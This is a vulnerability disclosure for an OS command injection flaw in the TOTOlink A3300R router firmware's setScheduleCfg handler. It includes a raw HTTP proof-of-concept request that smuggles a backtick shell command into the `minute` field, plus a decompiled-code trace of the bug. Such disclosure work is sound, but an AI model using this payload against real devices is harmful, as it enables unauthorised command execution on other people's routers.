 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](D:\typora 图片\image-20240109124617070.png)

## Vulnerability Description

When deal with  `setScheduleCfg` request,`minute` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=AEAF12ADD613E086 HTTP/1.1
Host: itotolink.net
Content-Length: 107
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/schedule.html?token=AEAF12ADD613E086
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"mode":"1","hour":"1","minute":"14`ls>/web/345.txt`","week":"64","recHour":"","topicurl":"setScheduleCfg"}
```

injection the command "ls>/web/345.txt"

![image-20240109131637580](D:\typora 图片\image-20240109131637580.png)

check the result.

```
GET /345.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/schedule.html?token=AEAF12ADD613E086
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109131644895](D:\typora 图片\image-20240109131644895.png)

## Analysis

sub_414614 will handle the `setScheduleCfg` request. sub_414614 get `minute` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109131808344](D:\typora 图片\image-20240109131808344.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](D:\typora 图片\image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](D:\typora 图片\image-20240109131330610.png)